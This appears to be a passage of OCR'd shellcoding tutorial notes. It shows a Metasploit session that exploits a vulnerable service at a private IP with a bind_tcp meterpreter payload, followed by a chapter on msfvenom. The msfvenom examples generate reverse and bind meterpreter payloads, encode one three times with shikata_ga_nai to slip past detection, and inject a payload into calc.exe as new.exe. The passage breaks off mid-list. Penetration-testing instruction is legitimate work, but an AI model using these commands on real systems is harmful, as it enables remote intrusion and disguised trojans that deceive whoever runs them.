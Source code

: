 ./msfconsole
 
 
 
use exploit/windows/misc/vulnserv
set PAYLOAD windows/meterpreter/bind_tcp
set RHOST 192.168.153.163
set RPORT 9999
exploit







#########################################
# Chapter 12: Shellcoding with MSFVenom #
#########################################


-No shellcoding walk-through can be considered complete without covering Metasploit’s MSFPayload replacement 
msfvenom. 

-If you have never used msfvenom, the first thing you should do is read the help menu and memorize some of these 
flags:

-Example 1: If you wish to list all the payloads available, you can do the following (also the same for listing 
encoders, nops, or all):

./msfvenom -l payloads  


- Example 2: Generating a windows/meterpreter/reverse_tcp:
./msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP -f exe


- Example 3: To generate a payload that avoids certain bad characters:
./msfvenom -p windows/meterpreter/bind_tcp -b '\x00'  msfv


- Example 4: To generate a payload with a specific encoder, and then encode 3 times:
./msfvenom -p windows/meterpreter/bind_tcp -e x86/shikata_ga_nai -i 3  

-Example 5: Inject a payload to calc.exe, and save it as new.exe

./msfvenom -p windows/meterpreter/bind_tcp -x calc.exe -k -f exe > new.exe  



- msfvenom is a combination of Msfpayload and Msfencode, putting both of these tools into a single Framework instance. 

-Note: msfvenom has replaced both msfpayload and msfencode as of June 8th, 2015.

-The advantages of msfvenom are:
One single tool
Standardized command line options
Increased speed
Msfvenom has a wide range of options available:
